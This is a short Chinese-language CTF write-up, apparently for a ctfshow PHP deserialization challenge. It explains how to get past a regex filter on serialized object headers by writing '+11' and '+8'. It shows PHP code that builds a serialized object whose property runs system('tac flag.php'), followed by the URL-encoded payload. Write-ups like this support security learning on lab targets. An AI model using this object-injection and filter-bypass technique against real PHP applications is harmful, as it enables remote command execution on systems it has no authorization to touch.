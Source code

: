 这一题加了限制条件，也就是不能出现`o或者c:数字:`这种组合，所以我们只需要将里面的数字加上符号就可以了，比如里面出现的11修改成+11

```php
<?php  
class ctfShowUser{  
    public $class = 'info';  
  
    public function __construct(){  
        $this->class=new backDoor();  
    }  
  
  
}  
  
class backDoor{  
    public $code='system("tac flag.php");';  
  
}  
  
  
$a=serialize(new ctfShowUser())."<br>";  
$b=str_replace(':11',':+11',$a);  
$c=str_replace(':8',':+8',$b);  
  
if(!preg_match('/[oc]:\d+:/i', $c)){  
    echo "user=".urlencode($c);  
}  
  
?>
```

得到payload：
```txt
user=O%3A%2B11%3A%22ctfShowUser%22%3A1%3A%7Bs%3A5%3A%22class%22%3BO%3A%2B8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A23%3A%22system%28%22tac+flag.php%22%29%3B%22%3B%7D%7D%3Cbr%3E
```

拿到flag：
![Pasted image 20241007222435.png](/img/user/picture/Pasted%20image%2020241007222435.png)








